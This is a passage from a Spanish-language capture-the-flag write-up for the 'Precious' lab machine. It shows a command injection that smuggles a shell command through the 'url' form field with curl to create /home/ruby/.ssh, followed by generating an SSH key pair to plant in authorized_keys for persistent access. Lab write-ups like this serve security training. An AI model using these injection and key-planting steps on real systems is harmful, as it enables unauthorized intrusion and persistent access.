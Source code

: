 ```php
php > echo urldecode('/total%2032%0Adrwxr-xr-x%205%20ruby%20ruby%204096%20Feb%20%209%2016:23%20.%0Adrwxr-xr-x%204%20root%20root%204096%20Oct%2026%2008:28%20..%0Alrwxrwxrwx%201%20root%20root%20%20%20%209%20Oct%2026%2007:53%20.bash_history%20-%3E%20/dev/null%0A-rw-r--r--%201%20ruby%20ruby%20%20220%20Mar%2027%20%202022%20.bash_logout%0A-rw-r--r--%201%20ruby%20ruby%203526%20Mar%2027%20%202022%20.bashrc%0Adr-xr-xr-x%202%20root%20ruby%204096%20Oct%2026%2008:28%20.bundle%0Adrwxr-xr-x%203%20ruby%20ruby%204096%20Feb%20%209%2011:57%20.cache%0Adrwx------%203%20ruby%20ruby%204096%20Feb%20%209%2016:23%20.gnupg%0A-rw-r--r--%201%20ruby%20ruby%20%20807%20Mar%2027%20%202022%20.profile');
/total 32
drwxr-xr-x 5 ruby ruby 4096 Feb  9 16:23 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Feb  9 11:57 .cache
drwx------ 3 ruby ruby 4096 Feb  9 16:23 .gnupg
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
php >
```
No hay un directorio .ssh pero como somos ruby(Que lo vimos del primer comando que ejecutamos) podemos crear el directorio y crear un archivo authorized_keys en el
Creemos el directorio
```bash
❯ curl -s http://precious.htb/ --data "url=http://10.10.14.110/\$(mkdir\$IFS'/home/ruby/.ssh')"
```
Ahora Tenemos que meter nuestra llave publica en el directorio .ssh con el nombre de authorized_keys para que tome nuestra key como valida
asi que generemos un par de claves
```bash
❯ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/blank/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/blank/.ssh/id_rsa
Your public key has been saved in /home/blank/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:sE9GumE08Lb94+R8mgjrhUp8i6QY7T17EvBExdMRGmw blank@Pez
The key's randomart image is:
+---[RSA 3072]----+
|    .+o.oo       |
|    .oEo.        |
|   . .B..        |
|  . .o O         |
|   +  * S        |
| . .o. B .       |
|. . +.= o +      |
| + =o+.= * o.    |
|. o =*+ . *o     |
+----[SHA256]-----+
```
Vamos a directorio .ssh que esta en nuestra directorio personal y vemos el par de claves
```bash
❯ cd ~/.ssh
❯ ls -la
drwx------ blank blank  54 B  Thu Feb  9 16:47:54 2023  .
drwxr-xr-x blank blank 1.6 KB Thu Feb  9 16:48:45 2023  ..
.rw------- blank blank 2.5 KB Thu Feb  9 16:47:54 2023  id_rsa
.rw-r--r-- blank blank 563 B  Thu Feb  9 16:47:54 2023  id_rsa.pub
.rw-r--r-- blank blank 6.7 KB Wed Feb  8 22:15:39 2023  known_hosts
```
Para transferir el contenido del archivo id_rsa.pub a la maquina victima lo hare con curl con el parametro -o para guardar el ouptut en un archivo, montemos nuestro servidor con python
```bash
```